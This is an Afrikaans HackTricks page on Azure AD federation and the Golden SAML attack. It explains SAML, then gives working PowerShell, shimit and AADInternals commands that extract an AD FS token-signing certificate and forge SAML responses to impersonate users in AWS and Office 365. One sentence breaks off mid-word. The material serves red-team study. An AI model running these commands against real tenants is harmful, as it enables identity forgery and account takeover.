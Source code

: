 # Federasie

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-opslagplekke.

</details>

## Basiese Inligting

[Volgens die dokumentasie:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**Federasie** is 'n versameling van **domeine** wat **vertroue** gevestig het. Die vlak van vertroue kan wissel, maar sluit gewoonlik **outentifikasie** in en altyd **magtiging**. 'n Tipiese federasie kan 'n **aantal organisasies** insluit wat **vertroue** gevestig het vir **gedeelde toegang** tot 'n stel hulpbronne.

Jy kan jou **on-premises** omgewing **federeer met Azure AD** en hierdie federasie gebruik vir outentifikasie en magtiging. Hierdie aanmeldmetode verseker dat alle gebruikers se **outentifikasie plaasvind op die terrein**. Hierdie metode stel administrateurs in staat om strenger vlakke van toegangsbeheer te implementeer. Federasie met **AD FS** en PingFederate is beskikbaar.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

In Wesens, in Federasie, vind alle **outentifikasie** plaas in die **on-prem**-omgewing en die gebruiker ervaar SSO oor al die vertroude omgewings. Gebruikers kan dus **toegang verkry tot** **wolktoepassings** deur hul **on-prem-gedragsbepalings** te gebruik.

**Security Assertion Markup Language (SAML)** word gebruik om **alle outentifikasie- en magtigingsinligting** tussen die verskaffers uit te ruil.

In enige federasie-opstelling is daar drie partye:

* Gebruiker of Kliënt
* Identiteitsverskaffer (IdP)
* Diensverskaffer (SP)

(Afbeeldings van https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. Aanvanklik word 'n toepassing (Diensverskaffer of SP, soos AWS-konsole of vSphere-webkliënt) deur 'n gebruiker benader. Hierdie stap kan omseil word, wat die kliënt direk na die IdP (Identiteitsverskaffer) lei, afhangende van die spesifieke implementering.
2. Daarna identifiseer die SP die toepaslike IdP (bv. AD FS, Okta) vir gebruikersoutentifikasie. Dit stel dan 'n SAML (Security Assertion Markup Language) AuthnRequest saam en stuur die kliënt na die gekose IdP.
3. Die IdP neem oor en outentifiseer die gebruiker. Na outentifikasie word 'n SAMLResponse deur die IdP geformuleer en deur die gebruiker na die SP gestuur.
4. Uiteindelik evalueer die SP die SAMLResponse. As dit suksesvol gevalideer word, wat 'n vertrouensverhouding met die IdP impliseer, word die gebruiker toegang verleen. Dit dui die voltooiing van die aanmeldproses aan, wat die gebruiker in staat stel om van die diens gebruik te maak.

**As jy meer wil leer oor SAML-outentifikasie en algemene aanvalle, gaan na:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS is 'n beweringsgebaseerde identiteitsmodel.
* "..bewerings is eenvoudig verklarings (byvoorbeeld naam, identiteit, groep) wat oor gebruikers gemaak word en hoofsaaklik gebruik word vir die magtiging van toegang tot beweringsgebaseerde toepassings oral op die internet."
* Bewerings vir 'n gebruiker word binne die SAML-token geskryf en word dan onderteken om vertroulikheid deur die IdP te bied.
* 'n Gebruiker word geïdentifiseer deur ImmutableID. Dit is wêreldwyd uniek en word in Azure AD gestoor.
* Die ImmutableID word op die terrein gestoor as ms-DS-ConsistencyGuid vir die gebruiker en/of kan afgelei word uit die GUID van die gebruiker.
* Meer inligting in [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML-aanval:**

* In ADFS word die SAML Response onderteken deur 'n token-ondertekeningsertifikaat.
* As die sertifikaat gekompromitteer is, is dit moontlik om as ENIGE gebruiker wat gesinkroniseer is met Azure AD, by die Azure AD aan te meld!
* Net soos ons PTA-misbruik, sal 'n wagwoordverandering vir 'n gebruiker of MFA geen effek hê nie omdat ons die outentifikasierespons vervals.
* Die sertifikaat kan uit die AD FS-bediener met DA-voorregte onttrek word en kan dan vanaf enige internetgekoppelde masjien gebruik word.
* Meer inligting in [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

Die proses waar 'n **Identiteitsverskaffer (IdP)** 'n **SAMLResponse** produseer om gebruikersaanmelding te magtig, is van uiterste belang. Afhangende van die spesifieke implementering van die IdP, kan die **respons** **onderteken** of **gekripteer** wees met behulp van die **IdP se privaatsleutel**. Hierdie prosedure stel die **Diensverskaffer (SP)** in staat om die egtheid van die SAMLResponse te bevestig, wat verseker dat dit inderdaad deur 'n vertroude IdP uitgereik is.

'n Parallel kan getrek word met die [golden ticket-aanval](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), waar die sleutel wat die gebruiker se identiteit en toestemmings (KRBTGT vir golden tickets, privaatsleutel vir token-ondertekening vir golden SAML) outentifiseer, g
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
Met al die inligting is dit moontlik om 'n geldige SAMLResponse te vergeet as die gebruiker wat jy wil voorstel met behulp van [**shimit**](https://github.com/cyberark/shimit)**:** 

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### Op-prem -> wolk
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
Dit is ook moontlik om 'n ImmutableID van slegs wolkgebruikers te skep en hulle te impersoneer.
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
